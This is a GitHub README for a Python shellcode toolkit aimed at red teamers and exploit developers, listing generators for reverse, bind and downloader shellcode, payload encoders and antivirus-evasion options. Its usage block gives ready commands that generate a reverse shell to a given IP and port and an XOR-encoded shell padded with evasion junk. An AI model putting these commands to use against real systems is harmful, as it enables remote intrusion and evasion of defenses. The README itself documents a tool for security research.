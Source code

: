 # 🧠 ASM Tool - Shellcode Toolkit v2.0

ASM Tool is a powerful, modular Python framework for generating, encoding, optimizing, analyzing, and evading shellcode across multiple architectures — made for red teamers, reverse engineers, and exploit devs.

![screenshot](https://img.shields.io/badge/version-v2.0-blue.svg)  
![python](https://img.shields.io/badge/python-3.8%2B-green.svg)  
![license](https://img.shields.io/badge/license-MIT-lightgrey.svg)

---

## ✨ Features

- 🔥 Shellcode Generator (exec, reverse, bind, downloader)
- 🔧 Assembly Optimizer
- 🧬 Encoder (XOR, NOT, ADD, ROT, multi-step chaining)
- 🛡️ AV Evasion (nopsled, junk, metamorphic, etc)
- 🧪 Disassembler + Dangerous Instruction Analyzer
- 📊 Shellcode Statistics & Entropy
- 📦 Modular format — easy to extend
- 🧰 Supports: `x86`, `x64`, `ARM`, `ARM64`, `MIPS`, `PPC`

---

## 🚀 Quick Usage

```bash
# Generate reverse shell
python3 asm_tool8.py --rev-shell --ip 192.168.0.123 --port 4444 --arch x86 --mode 32 --format hex

# Generate exec shell
python3 asm_tool8.py --exec-shell "/bin/sh" --arch x86 --mode 64 --format c

# Disassemble shellcode
python3 asm_tool8.py --disasm "4831c048..." --arch x86 --mode 64 --analyze --stats

# Encode with XOR + evasion
python3 asm_tool8.py --exec-shell "/bin/sh" --encode xor --key 0xaa --evasion nopsled,junk --format python

